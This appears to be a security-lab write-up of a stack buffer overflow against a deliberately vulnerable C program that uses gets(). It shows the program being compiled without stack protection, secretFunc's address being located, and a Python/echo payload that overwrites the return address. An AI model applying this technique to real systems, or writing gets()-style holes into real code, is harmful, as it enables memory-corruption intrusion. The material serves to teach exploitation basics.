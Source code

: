 # Buffer Overflow Attack on `bof1.c`

```c++
#include <stdio.h>
#include <unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln()
{
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char *argv[])
{
    if (argv[1] == 0)
    {
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```

The target is to call the function `secretFunc()` by providing a large amount of input that overflow the size of the array `char array[200]`.

## Compile the source code

We compile the source code with `-fno-stack-protector` to disable the stack protector.

    gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2

![gcc -g bof1.c -o bof1.o](../img/bof1/gcc.png)

A new file `bof1.o` is created.

Here we get a warning:

```shell
bof1.c: In function 'vuln':
bof1.c:11:5: warning: implicit declaration of function 'gets' [-Wimplicit-function-declaration]
     gets(array);
     ^
/tmp/ccH5mRoJ.o: In function `vuln':
/home/seed/seclabs/review2/bof1.c:11: warning: the `gets' function is dangerous and should not be used.
```

This is because the source code used `gets()` which is a vulnerable function. It it doesn’t limit the amount of data it reads, making it susceptible to buffer overflows.

`gets()` has been removed from modern versions of the C standard because it can lead to arbitrary code execution via buffer overflow.

## Finding the address of the `secretFunc()`

In order to call the function `secretFunc()`, we need to know its address. We can obtain this address using `objdump`.

```bash
objdump -d bof1.o | grep secretFunc
```

![objdump -d bof1.o | grep secretFunc](../img/bof1/objdump.png)

The address of the function is `0x0804846b`. When writing this address to the stack, we need to represent it in **Little Endian** format, meaning it is reversed in memory (`6b 84 04 08`)

## Attack

We will overflow the stack frame of the `vuln()` function, specifically the local `array` variable. The goal is to overwrite the saved return address (`eip`) on the stack, causing it to jump to `secretFunc()`.

### Stack frame of `vuln()`:

![vuln()](../img/bof1/stackframe.png)

We need to input a large amount of charactors so that it exceed the 200 bytes char array plus 4 bytes of `ebp`, and overwrite the value of `eip` so that it will call the function `secretFunc()` instead of returning to `main()`.

Remember, the address of `secretFunc()` is `0x0804846b`, and we need to write it in reverse.

The input should be 200 bytes to fill the memory spared for the `array` local variable, and 4 bytes to fill the memory of `ebp`, then we will insert the address of `secretFunc()` into `eip`.

Since the input is so long, I will use Python to do it for me

```bash
echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')")
```

### Explain:

-   `'a' * 200`: 200 characters for the `array`.
-   `'b' * 4`: 4 characters for the `ebp`.
-   `'\x6b\x84\x04\x08'`: address of `secretFunc()` written in **Little Endian** format.

To inject the output of the `echo` into the input of the program, we will add `| ./bof1.o 1` after the `echo`:

```bash
echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')") | ./bof1.o 1
```

### Result:

![result](../img/bof1/result.png)

We got the message `Congratulation!`, which means we have successfully redirect execution to `secretFunc()`!
